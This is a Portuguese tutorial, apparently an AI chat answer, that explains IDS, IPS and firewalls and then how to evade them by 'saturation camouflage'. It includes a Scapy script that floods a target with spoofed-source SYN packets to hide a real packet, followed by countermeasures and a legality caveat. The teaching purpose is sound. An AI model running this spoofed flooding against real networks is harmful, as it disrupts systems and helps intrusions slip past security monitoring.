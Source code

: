 ### Explicação Simples: IDS, IPS e Firewall

1. **IDS (Intrusion Detection System)** – _Sistema de Detecção de Intrusões_
    
    - **Função**: Monitora o tráfego de rede ou atividades do sistema para identificar comportamentos suspeitos ou ataques.
    - **Exemplo**: Um IDS percebe que um mesmo IP tenta acessar várias portas diferentes no seu servidor e alerta o administrador.
2. **IPS (Intrusion Prevention System)** – _Sistema de Prevenção de Intrusões_
    
    - **Função**: Similar ao IDS, mas além de detectar, o IPS age para bloquear o tráfego suspeito.
    - **Exemplo**: O IPS detecta um ataque DDoS e automaticamente bloqueia os IPs que estão enviando pacotes maliciosos.
3. **Firewall**
    
    - **Função**: Atua como um porteiro, decidindo quais pacotes podem passar com base em regras predefinidas (por exemplo, permitir somente tráfego na porta 80).
    - **Exemplo**: Um firewall bloqueia conexões na porta 22 (SSH) vindas de fora da sua rede.

---

### Como Bypass IDS/IPS/Firewall

A ideia central é fazer com que nossos pacotes maliciosos ou tráfego suspeito "se escondam" ou "passem despercebidos" pelos sistemas de segurança.

#### Técnica de "Camuflagem por Saturação"

Você mencionou uma técnica interessante: mascarar o pacote verdadeiro no meio de vários pacotes falsos para confundir o IDS/IPS ou firewall.

**Como funciona**:

- Você envia um **grande volume de pacotes falsos** de diferentes origens (IPs falsos) para saturar o sistema de segurança.
- No meio desse tráfego, o seu pacote verdadeiro (o que contém a intenção maliciosa ou acesso legítimo que você quer passar) está "camuflado".
- O IDS/IPS/firewall pode não conseguir processar ou identificar corretamente o pacote verdadeiro devido à quantidade massiva de pacotes falsos.

---

### Exemplo Prático Simples (Usando Python com Scapy):

Aqui está um exemplo básico para demonstrar essa técnica:

1. Enviar pacotes falsos de vários IPs:
    
    ```python
    from scapy.all import *
    import random
    
    def random_ip():
        return f"{random.randint(1, 255)}.{random.randint(1, 255)}.{random.randint(1, 255)}.{random.randint(1, 255)}"
    
    def send_noise_packets(target_ip, target_port):
        for _ in range(1000):  # Enviar 1000 pacotes "ruído"
            fake_ip = random_ip()
            pkt = IP(src=fake_ip, dst=target_ip) / TCP(dport=target_port, flags="S")
            send(pkt, verbose=False)
    
    def send_real_packet(target_ip, target_port):
        pkt = IP(src="192.168.1.100", dst=target_ip) / TCP(dport=target_port, flags="S")
        send(pkt, verbose=True)
    
    target_ip = "192.168.1.10"  # IP do alvo
    target_port = 80  # Porta do alvo
    
    # Enviar pacotes falsos
    send_noise_packets(target_ip, target_port)
    
    # Enviar o pacote real
    send_real_packet(target_ip, target_port)
    ```
    
2. **Explicação**:
    
    - A função `random_ip()` gera IPs falsos.
    - O `send_noise_packets()` envia pacotes falsos para a porta do alvo.
    - No meio do tráfego "ruído", o `send_real_packet()` envia o pacote real para o alvo.

---

### Por que isso pode funcionar?

1. **Saturação**:
    
    - O IDS/IPS pode estar configurado para processar apenas uma quantidade limitada de pacotes por segundo.
    - O firewall pode priorizar o bloqueio dos pacotes mais óbvios, deixando escapar outros.
2. **Confusão**:
    
    - Quando muitos pacotes chegam com IPs e padrões diferentes, o sistema pode não conseguir distinguir o pacote real.

---

### Limitações e Contramedidas

1. **Limitações**:
    
    - Sistemas mais avançados de IDS/IPS usam análises comportamentais e podem identificar padrões mesmo no meio do ruído.
    - Gerar pacotes em massa pode consumir recursos do atacante.
2. **Contramedidas**:
    
    - Configurar firewalls e IDS/IPS para priorizar análises por padrões e não apenas volume.
    - Implementar regras de rate limiting (limitação de taxa) para identificar tráfego incomum.

---

Este é um exemplo ilustrativo, focado em aprendizado. No uso real, ataques desse tipo são ilegais sem autorização e podem violar várias leis, além de provocar danos significativos a redes. O objetivo é entender como esses sistemas funcionam e como melhorá-los para proteção contra técnicas semelhantes.